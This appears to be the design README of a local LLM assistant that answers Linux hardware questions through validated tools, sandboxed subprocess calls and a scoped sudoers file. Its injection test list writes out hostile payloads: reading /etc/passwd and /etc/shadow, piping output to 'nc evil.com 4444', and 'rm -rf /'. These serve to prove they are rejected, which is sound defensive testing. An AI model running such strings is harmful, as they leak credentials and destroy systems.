


# Problem 2: Linux Hardware Q&A Assistant (CLI)

## 1. System Overview & Architecture

Problem 2 implements an interactive, multi-turn Command-Line Interface (`hw-assistant`) that provides accurate, factual answers to natural language hardware queries about Linux machines. Running LLMs directly against system shells poses severe security and reliability hazards: hallucinations can report imaginary hardware specifications, while shell injection vulnerabilities can lead to system compromise. 

This assistant eliminates these risks through a defense-in-depth architecture:
1. **The LLM never generates shell commands**: It selects only from a typed registry of pre-defined tools with Pydantic-validated arguments.
2. **Safe Execution Engine**: Commands execute exclusively via `subprocess.run(shell=False)` with resolved absolute binary paths, strict timeouts, output caps, and a sanitized execution environment.
3. **Scoped Least-Privilege Sudoers**: Only `dmidecode` with fixed, whitelisted flags is granted unprivileged root elevation via `sudo -n`; the CLI itself never runs as root.
4. **Anti-Hallucination Grounding**: Every answer is strictly verified against structured tool JSON before output; numeric claims must have exact provenance in the tool data.



---

## 2. End-to-End Sequence Diagram



---

## 3. Safe Execution Engine & Injection Defense

### Hard Invariants
To prevent arbitrary command execution, remote code execution (`RCE`), and privilege escalation:
1. **Zero Shell Strings**: `shell=False` is enforced unconditionally in `subprocess.run()`. Shell meta-characters (`;`, `&&`, `|`, `$(...)`, `` ` ``, `\n`, `>`, `<`) cannot trigger shell interpretation.
2. **Absolute Binary Paths**: Commands never inherit dynamic `$PATH` search bugs. Binary paths are discovered at startup via `shutil.which()` and frozen as absolute paths (e.g., `/usr/bin/lscpu`, `/usr/sbin/dmidecode`).
3. **Argv Vectorization**: Commands are assembled strictly as list vectors (`["/usr/sbin/dmidecode", "-t", "memory"]`).
4. **Parameter Enums and Regex**: Tool parameters are validated using Pydantic fields, restricted string Literals, or strict regex patterns (`^[a-zA-Z0-9_-]+$`).
5. **Output Caps & Timeouts**: Subprocess execution is strictly capped at a 5.0-second timeout and 1 MB output limit, preventing denial-of-service through infinite loops or runaway memory streams.
6. **Sanitized Environment**: Subprocesses run in a stripped environment (`PATH=/usr/bin:/bin:/usr/sbin:/sbin`, `LANG=C.UTF-8`), stripping sensitive credentials and API tokens.
7. **Untrusted Tool Output Tagging**: Tool stdout is treated as untrusted text and sanitized to prevent prompt-injection attacks against downstream LLM reasoning steps.

### Injection Attack Test Suite
Unit tests in `tests/test_safety.py` explicitly attempt 8 standard injection payloads and verify rejection:
- `dmidecode; cat /etc/passwd` $\to$ Rejection / safe execution failure
- `lsblk && reboot` $\to$ Rejection
- `nvme0n1 | nc evil.com 4444` $\to$ Rejection
- `$(cat /etc/shadow)` $\to$ Rejection
- `` `id` `` $\to$ Rejection
- `foo > /tmp/pwned` $\to$ Rejection
- `foo < /tmp/input` $\to$ Rejection
- `bar\nrm -rf /` $\to$ Rejection

---

## 4. Scoped Sudoers Design & Unprivileged Fallback Hierarchy

### Least-Privilege `/etc/sudoers.d/hw-assistant`
Running the entire application as `root` is dangerous and prohibited. The CLI runs as an unprivileged user. Root privileges are required only for DMI/SMBIOS memory and BIOS tables.

A scoped sudoers template is provided in `resources/sudoers.d/hw-assistant`:
```sudoers
# /etc/sudoers.d/hw-assistant
# Grants restricted, non-interactive root execution for ONLY dmidecode with exact argument sets.
# No wildcards, no shell escapes, no interactive prompts.

ALL ALL=(root) NOPASSWD: /usr/sbin/dmidecode -t memory
ALL ALL=(root) NOPASSWD: /usr/sbin/dmidecode -t bios
ALL ALL=(root) NOPASSWD: /usr/sbin/dmidecode -t baseboard
```

- **Non-Interactive Invocation**: Invoked with `sudo -n`. If password prompt is required or credentials expire, it immediately returns non-zero without blocking the terminal session.
- **Path Pinning**: The absolute binary path is discovered at runtime.

### Graceful Degradation Hierarchy
If `sudo` is unavailable or denied, the engine automatically falls back to unprivileged Linux interfaces:
1. **Memory**: Falls back to `/proc/meminfo` and `/proc/vmstat` for memory summary (total, available, swap). If physical slot topology is unreadable without root, it provides summary stats and reports:
   > *"Physical DIMM slot topology requires root privileges via dmidecode. Configure /etc/sudoers.d/hw-assistant for full topology."*
2. **CPU**: Evaluates `/usr/bin/lscpu` or directly parses `/proc/cpuinfo`.
3. **Storage**: Uses unprivileged `/usr/bin/lsblk -J -o NAME,SIZE,TYPE,TRAN,ROTA,MOUNTPOINT,MODEL`.
4. **Motherboard / BIOS**: Reads unprivileged `/sys/class/dmi/id/{bios_vendor, bios_version, board_name, product_name}`.
5. **GPU**: Executes `/usr/bin/lspci` or `/usr/bin/nvidia-smi` (if NVIDIA driver is installed).

---

## 5. DMI Caveats: Soldered RAM & Virtual Machines

SMBIOS/DMI tables reported by `dmidecode` are frequently inaccurate in two distinct scenarios:
1. **Soldered / Non-Upgradable Memory (LPDDR4x / LPDDR5 / Apple Silicon / Thin Laptops)**:
   - DMI `Form Factor` often reports `Row Chip` or `Embedded`.
   - `Type Detail` reports `Synchronous` or `Non-Volatile`.
   - The parser flags `is_soldered = True` and warns that RAM cannot be physically upgraded despite empty logical slots.
2. **Virtual Machines & Cloud Hypervisors (AWS EC2, GCP, VMware, QEMU/KVM)**:
   - Hypervisors synthesize fake DMI tables where `Maximum Capacity` is fictitious (e.g., 3 TB on a 1 GB micro instance) and slots appear as virtual NUMA hotplug sockets.
   - The parser detects VM hypervisors (via `system-manufacturer` or `product_name` containing `QEMU`, `VMware`, `Amazon EC2`, `KVM`) and annotates:
     > *"Running inside Virtual Machine / Cloud Hypervisor. Hardware topology reflects hypervisor virtual allocation rather than physical motherboard DIMM limits."*

---

## 6. Anti-Hallucination Grounding & Accuracy Guardrails

1. **Answer Only From Tool JSON**: The LLM system instructions explicitly state that every claim must be derived from the tool output. Speculative assertions are prohibited.
2. **Missing Data Reporting**: When queried about hardware absent from the system (e.g., GPU on a headless VPS), the assistant states:
   > *"I cannot determine this from system data: No dedicated GPU detected via lspci or nvidia-smi."*
3. **Numeric Claim Verifier**: A post-processing rule parses all numbers and capacities in the generated text (e.g., "16 GB", "64 GB", "2 slots") and verifies that every number exists in the tool JSON output. If an ungrounded claim is detected, it is flagged or replaced with verified factual output.
4. **Provenance Attribution**: Every response annotates which tool and underlying system source generated each fact (e.g., `[Provenance: dmidecode -t memory, lscpu]`).
5. **Keyword Fallback Router**: Smaller local models (such as Llama-3 8B or quantized models) occasionally fail structured JSON tool calling. The orchestrator includes a deterministic regex/keyword fallback router that detects queries like "RAM", "disk", "CPU", "GPU" and automatically routes to the appropriate tool.

---

## 7. Multi-Turn Session Memory & Tiered Cache Invalidation

1. **Multi-Turn Context Resolution**:
   - Query 1: *"What CPU do I have?"* $\to$ Resolves via `get_cpu_info()`.
   - Query 2: *"And what about the GPU?"* $\to$ Session memory detects anaphoric reference to hardware inspection and invokes `get_gpu_info()`.
2. **Tiered TTL Caching**:
   - **Static Hardware (TTL: 3600s)**: CPU architecture, motherboard BIOS, memory slot topology, disk model strings. Hardware components do not change during an active chat session.
   - **Dynamic Performance (TTL: 30s)**: Memory available/free, swap usage, disk partition free space, battery discharge percentage.
3. **Explicit Invalidation**: Commands that modify hardware state or explicit user refreshes immediately invalidate cached records.

---

## 8. Privacy Architecture & Audit Logs

1. **Local-First by Default**: The default backend is local `Ollama` (`llama3:latest`). System specifications, serial numbers, and kernel details never leave localhost.
2. **Cloud Backend Warnings**: Selecting `--backend openai` or `--backend anthropic` triggers a clear Rich terminal warning:
   > *"WARNING: You have selected a cloud LLM backend ('openai'). Hardware diagnostics and system identifiers will be transmitted to external servers."*
3. **`--privacy` Flag & Documentation**: Running `hw-assistant privacy` displays a detailed privacy ledger of all transmitted telemetry.
4. **Redactable Local Audit Log**: Every tool execution is recorded in `~/.hw-assistant/audit.log` (or local workspace) with ISO timestamps, user identity, tool name, and exit codes. Sensitive serial numbers and UUIDs are masked using regex redaction.

---

## 9. Hardware Fixtures & Distro Portability

The test suite validates output parsing against real and synthetic fixtures representing diverse distros and architectures:
- `ubuntu_2204_desktop`: Dell XPS 15 (Core i7-12700H, 32 GB DDR5, NVMe, RTX 3060).
- `debian_12_server`: Supermicro 1U Rackmount (Dual Xeon Silver, 128 GB ECC Registered, SATA SSDs).
- `arch_thinkpad`: Lenovo ThinkPad T14s (AMD Ryzen 7 PRO, 16 GB soldered LPDDR5, NVMe).
- `aws_ec2_t3_vm`: AWS Cloud Hypervisor (KVM virtualized CPU, synthetic RAM topology, EBS virtual disk).
- `raspberry_pi_4`: ARM64 SoC (Broadcom BCM2711, 4 GB soldered RAM, mmcblk SD storage).
- `broken_empty_fixtures`: Truncated outputs, missing commands, permission denied stderr.
- `scripts/capture_system_fixtures.py`: Script provided to capture live host fixtures.

---

## 10. Evaluation Benchmark Results

Evaluated across 22 multi-turn Q&A test cases via `eval/eval_suite.py`:
- **Overall Benchmark Score**: **22 / 22 passed (100.0%)**
- **Canonical RAM Upgrade Test**: **PASSED** ("You have 16 GB installed in 1 of 2 slots. The system supports up to 64 GB...")
- **Missing GPU Graceful Reporting**: **PASSED**
- **NVMe vs SATA Storage Classification**: **PASSED**
- **Soldered RAM / VM Caveat Warning**: **PASSED**
